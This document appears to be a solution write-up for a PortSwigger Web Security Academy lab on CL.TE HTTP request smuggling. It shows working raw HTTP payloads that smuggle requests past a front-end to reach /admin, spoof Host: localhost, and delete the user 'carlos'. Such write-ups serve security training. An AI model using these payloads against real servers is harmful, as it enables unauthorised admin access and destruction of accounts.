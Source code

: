 # [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Detect CL.TE

- burpsuite active scan: detected http request smuggling after 5 minutes
- burpsuite `HTTP request smuggler` extension: detected CL.TE
- smuggler.py: `[tabprefix1]   : Potential CLTE Issue Found`

## Analysis

"Path /admin is blocked" by frontend:

  ```http
  GET /admin HTTP/1.1

  HTTP/1.1 403 Forbidden

  "Path /admin is blocked"
  ```

try to smuggling:

- 1:

  ```http
  POST / HTTP/1.1^M$
  Host: 0ac900280337e237c0ff3baf008d00d4.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 30^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  0^M$
  ^M$
  GET /admin HTTP/1.1^M$
  foo: 
  ```

- 2:

  ```http
  GET / HTTP/1.1

  HTTP/1.1 401 Unauthorized

  Admin interface only available to local users
  ```

## Solutions

bypass the `only available to local users` by the `Host: localhost` header.

smuggling:

- access `/admin` endpoint:

  ```http
  POST / HTTP/1.1^M$
  Host: 0ac900280337e237c0ff3baf008d00d4.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 68^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  0^M$
  ^M$
  GET /admin HTTP/1.1^M$
  Host: localhost^M$
  Content-Length: 100^M$
  ^M$
  x=
  ```

  - the `Content-Length: 100` used to make the second request's headers append to the smuggled request body

  ```http
  GET / HTTP/1.1^M$
  Host: 0ac900280337e237c0ff3baf008d00d4.web-security-academy.net^M$
  Cookie: session=sNE9kWEDCJZXWYrgcKSERUthL6KDPx7I^M$
  ^M$

  HTTP/1.1 200 OK

  <a href="/admin/delete?username=carlos">Delete</a>
  ```

- delete carlos account:

  ```http
  POST / HTTP/1.1^M$
  Host: 0ac900280337e237c0ff3baf008d00d4.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 91^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  0^M$
  ^M$
  GET /admin/delete?username=carlos HTTP/1.1^M$
  Host: localhost^M$
  Content-Length: 100^M$
  ^M$
  x=
  ```

  ```http
  GET / HTTP/1.1^M$
  Host: 0ac900280337e237c0ff3baf008d00d4.web-security-academy.net^M$
  Cookie: session=sNE9kWEDCJZXWYrgcKSERUthL6KDPx7I^M$
  ^M$

  HTTP/1.1 200 OK

  <a href="/admin/delete?username=carlos">Delete</a>
  ```
